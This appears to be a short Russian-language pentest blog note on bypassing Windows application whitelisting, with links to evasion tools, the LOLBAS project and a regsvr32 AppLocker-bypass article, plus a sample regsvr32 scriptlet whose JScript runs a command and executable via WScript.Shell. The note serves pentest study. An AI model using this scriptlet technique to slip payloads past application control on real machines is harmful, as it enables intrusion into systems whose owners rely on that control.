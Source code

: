 ```yaml
---
layout: post
categories: articles
tags:
  - ru
  - windows
published: true
ru: true
---
```


# Оглавление
{:.no_toc}

* toc
{:toc}

# Введение
В принципе, вариантов у нас немного, либо ищем бинарники которые мы можем запускать и которые могут что-то запускать, либо ищем бинарники которые можно запускать и которым мы можем менять конфиги, как например пути к либам.

А еще есть ПроцесХайджекинг, но про него я много не знаю.

# Ссылки
[Запуск пейлоада с помощью .NET](https://github.com/khr0x40sh/WhiteListEvasion)

[Список всех интересных бинарников винды которые могут быть использованны против неё](https://lolbas-project.github.io/)

[Исходники штуки которая ищет недостатки в вайтлистинге на конкретной машине](https://github.com/cyberark/Evasor/)

[Обход вайтлиста с помощью regsvr32](https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/)

Пример кода для regsvr32

~~~
<?XML version="1.0"?>
<scriptlet>
<registration         
progid="Pentest"       
classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
<script language="JScript">
 
<![CDATA[   
var r = new ActiveXObject("WScript.Shell").Run("cmd /k cd c:\ & pentestlab.exe"); 
]]>
 
</script>
</registration>
</scriptlet>
~~~

